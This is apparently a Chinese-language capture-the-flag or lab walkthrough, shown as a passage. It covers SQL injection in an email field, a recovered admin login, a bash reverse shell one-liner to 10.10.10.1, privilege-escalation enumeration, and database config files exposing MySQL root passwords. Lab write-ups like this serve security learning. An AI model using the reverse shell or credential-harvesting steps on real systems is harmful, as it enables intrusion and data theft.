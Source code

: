 `email`处存在sql注入

![image-20241112172822344](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241112172822344.png)

拿到密码：`admin@isints.com:killerbeesareflying`，登录后台

![image-20241112172951088](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241112172951088.png)

## reverse shell

```shell
bash -c 'bash -i >& /dev/tcp/10.10.10.1/1234 0>&1
```

## SSH

尝试提权

`sudo`，`suid`，定时任务没有

`passwd`文件

```shell
root:x:0:0:root:/root:/bin/bash
dan:x:1000:1000:Dan Privett,,,:/home/dan:/bin/bash
```

这两用户可以利用

查看端口开放情况

```shell
www-data@web:/var/www/blog/images$ netstat -lntp
netstat -lntp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
```

3306端口开放，可以找数据库账号密码

```bash
www-data@web:/var/www$ cat mysqli_connect.php
cat mysqli_connect.php
<?php # Script 8.2 - mysqli_connect.php

DEFINE ('DB_USER', 'root');
DEFINE ('DB_PASSWORD', 'goodday');
DEFINE ('DB_HOST', 'localhost');
DEFINE ('DB_NAME', 'ch16');

www-data@web:/var$ cat mysqli_connect.php
cat mysqli_connect.php
<?php # Script 8.2 - mysqli_connect.php

DEFINE ('DB_USER', 'root');
DEFINE ('DB_PASSWORD', 'root@ISIntS');
DEFINE ('DB_HOST', 'localhost');
DEFINE ('DB_NAME', 'ch16');
```
